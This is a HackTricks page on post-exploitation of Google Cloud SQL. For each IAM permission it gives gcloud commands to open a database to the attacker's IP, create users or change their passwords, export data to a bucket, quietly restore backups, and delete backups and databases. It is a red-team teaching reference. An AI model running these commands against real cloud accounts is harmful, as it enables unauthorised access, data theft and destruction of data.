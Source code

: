 # GCP - Cloud SQL Post Exploitation

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Cloud SQL

For more information about Cloud SQL check:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

To connect to the databases you **just need access to the database port** and know the **username** and **password**, there isn't any IAM requirements. So, an easy way to get access, supposing that the database has a public IP address, is to update the allowed networks and **allow your own IP address to access it**.

```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
    --authorized-networks "$(curl ifconfig.me)" \
    --assign-ip \
    --quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```

It's also possible to use **`--no-backup`** to **disrupt the backups** of the database.

As these are the requirements I'm not completely sure what are the permissions **`cloudsql.instances.connect`** and **`cloudsql.instances.login`** for. If you know it send a PR!

### `cloudsql.users.list`

Get a **list of all the users** of the database:

```bash
gcloud sql users list --instance <intance-name>
```

### `cloudsql.users.create`

This permission allows to **create a new user inside** the database:

```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```

### `cloudsql.users.update`

This permission allows to **update user inside** the database. For example, you could change its password:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Backups might contain **old sensitive information**, so it's interesting to check them.\
**Restore a backup** inside a database:

```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```

To do it in a more stealth way it's recommended to create a new SQL instance and recover the data there instead of in the currently running databases.

### `cloudsql.backupRuns.delete`

This permission allow to delete backups:

```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```

### `cloudsql.instances.export`, `storage.objects.create`

**Export a database** to a Cloud Storage Bucket so you can access it from there:

```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName>
```

### `cloudsql.instances.import`, `storage.objects.get`

**Import a database** (overwrite) from a Cloud Storage Bucket:

```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```

### `cloudsql.databases.delete`

Delete a database from the db instance:

```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
